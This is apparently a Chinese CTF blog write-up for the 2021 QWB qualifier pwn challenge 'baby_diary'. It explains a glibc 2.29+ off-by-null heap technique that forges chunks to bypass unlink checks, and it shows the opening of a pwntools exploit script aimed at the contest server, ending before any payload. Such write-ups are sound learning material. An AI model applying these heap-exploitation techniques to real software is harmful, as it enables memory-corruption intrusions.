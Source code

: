 ```yaml
---
layout:     post
title:      强网杯2021初赛
subtitle:   pwn wp
date:       2021-06-14
author:     X1ng
header-img: qwb2021.jpg
catalog: true
tags:
    - 比赛
    - wp
---
```


![](https://tva1.sinaimg.cn/large/008i3skNly1grh54wldwvj31lh0u0b29.jpg)

记得去年做2个题，今年被学长带着也就做4个题，，所以菜的人学一年就只能多做俩题而已（

跟学长一起打比赛的体验比自己闷头做的体验好太多

### baby_diary

2.29版本以上的off-by-null，边学边做。。

> 保姆级教程：
>
> [glibc2.29下的off-by-null](https://bbs.pediy.com/thread-257901.htm)

通过伪造堆块绕过向下合并的检查、通过large_bin的fd_nextsize和bk_nextsize在没有堆地址的情况下，利用fastbin的fd和smallbin的bk来绕过unlink的检查

溢出半字节，除了输入全为0可以将半个字节改为0以外，只能控制溢出的半个字节为非0的数字

一开始想着只要清空`prev_inuse`就行，不管其他两个标志位，后来发现会过不了检查或者有奇奇怪怪得段错误，所以还是全0将溢出的半个字节置0，再两次输入构造`prev_size`

由于会在输入后面加一个`\x00`，并且`\x00`后还有半字节的溢出，这就1/256的爆破概率了，题目还会在输出时对堆块内容检查并判断，但是检查比较宽松，整体爆破概率应该是1/2048

```python
#!/usr/bin/python

from pwn import *
import sys

context.arch='amd64'

local=0
binary_name='baby_diary'
libc_name='libc.so.6'


libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)


def pwn():
	if local:
		p=process("./"+binary_name)
	else:
		p=remote('8.140.114.72',1399)

	def z(a=''):
		if local:
			gdb.attach(p,a)
			if a=='':
				raw_input
		else:
			pass
```
